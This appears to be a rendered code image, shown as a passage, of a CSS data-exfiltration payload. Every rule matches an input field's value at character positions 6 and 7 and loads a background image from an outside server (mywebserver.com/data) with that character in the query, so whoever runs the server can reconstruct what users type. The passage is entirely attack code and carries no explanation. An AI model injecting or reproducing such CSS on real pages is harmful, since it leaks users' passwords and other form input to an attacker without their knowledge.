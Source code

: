 ```
input[value=W]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=W"); }
input[value=X]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=X"); }
input[value=Y]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=Y"); }
input[value=Z]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=Z"); }
input[value=a]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=a"); }
input[value=b]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=b"); }
input[value=c]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=c"); }
input[value=d]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=d"); }
input[value=e]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=e"); }
input[value=f]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=f"); }
input[value=g]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=g"); }
input[value=h]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=h"); }
input[value=i]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=i"); }
input[value=j]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=j"); }
input[value=k]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=k"); }
input[value=l]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=l"); }
input[value=m]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=m"); }
input[value=n]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=n"); }
input[value=o]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=o"); }
input[value=p]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=p"); }
input[value=q]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=q"); }
input[value=r]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=r"); }
input[value=s]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=s"); }
input[value=t]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=t"); }
input[value=u]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=u"); }
input[value=v]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=v"); }
input[value=w]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=w"); }
input[value=x]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=x"); }
input[value=y]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=y"); }
input[value=z]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=z"); }
input[value=0]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=0"); }
input[value=1]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=1"); }
input[value=2]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=2"); }
input[value=3]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=3"); }
input[value=4]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=4"); }
input[value=5]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=5"); }
input[value=6]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=6"); }
input[value=7]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=7"); }
input[value=8]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=8"); }
input[value=9]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=9"); }

input[value=A]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=A"); }
input[value=B]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=B"); }
input[value=C]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=C"); }
input[value=D]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=D"); }
input[value=E]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=E"); }
input[value=F]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=F"); }
input[value=G]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=G"); }
input[value=H]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=H"); }
input[value=I]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=I"); }
input[value=J]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=J"); }
input[value=K]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=K"); }
input[value=L]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=L"); }
input[value=M]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=M"); }
input[value=N]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=N"); }
input[value=O]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=O"); }
input[value=P]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=P"); }
input[value=Q]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=Q"); }
input[value=R]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=R"); }
input[value=S]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=S"); }
input[value=T]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=T"); }
input[value=U]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=U"); }
input[value=V]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=V"); }
```